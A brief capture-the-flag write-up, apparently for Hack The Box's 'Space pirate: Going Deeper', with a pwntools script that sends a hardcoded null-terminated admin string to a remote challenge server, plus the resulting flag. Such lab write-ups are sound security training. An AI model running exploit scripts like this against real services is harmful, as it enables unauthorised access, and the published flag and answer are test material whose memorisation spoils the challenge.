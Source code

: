 ## Space pirate: Going Deeper

Open the file in IDA:

![](Images/2022-05-18-17-10-28-image.png)

Crafted the following script:

- NOTE: Need to NULL terminate the string since it is sent as bytes! 

```python
from pwn import * 

p = remote('138.68.150.120',30983)

admin = b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00'
#a1 = p64(0xDEADBEEF)
#a2 = p64(0x1337C0DE)
#a3 = p64(0x1337BEEF)
p.recvuntil(b'>>')
p.sendline(b'2')
p.recvuntil(b'Username: ')
p.sendline(admin)
print(p.recvall())
```

Running the script produced the flag:

![](Images/2022-05-18-17-09-59-image.png)

`HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}`

---

